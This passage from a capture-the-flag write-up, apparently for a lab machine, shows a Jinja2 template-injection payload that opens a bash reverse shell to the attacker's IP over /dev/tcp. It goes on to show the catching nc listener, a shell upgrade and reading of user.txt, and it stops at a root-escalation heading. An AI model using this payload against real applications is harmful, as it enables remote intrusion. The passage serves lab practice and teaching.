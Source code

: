 #### Shell

I'll update the payload to:



    costume={{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >%26 /dev/tcp/10.10.14.8/443 0>%261"').read() }}&q=1&addr=test



I'll need to URL encode the `&` character of the POST request will treat
it as a break and a new parameter. I'll use a Bash reverse shell, with
`bash -c ''` to make sure it's running in the Bash context (see the end
of my deep dive [video](https://www.youtube.com/watch?v=OjkVep2EIlw) on
this reverse shell for details).

On submitting in Repeater, it hangs. At my listening `nc`, there's a
shell:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.134 38950
    bash: cannot set terminal process group (949): Inappropriate ioctl for device
    bash: no job control in this shell
    tom@epsilon:/var/www/app$ 



I'll upgrade my shell:



    tom@epsilon:/var/www/app$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    tom@epsilon:/var/www/app$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo;fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    tom@epsilon:/var/www/app$



And grab `user.txt`:



    tom@epsilon:~$ cat user.txt
    9ae137b0************************



## Shell as root

### Enumeration
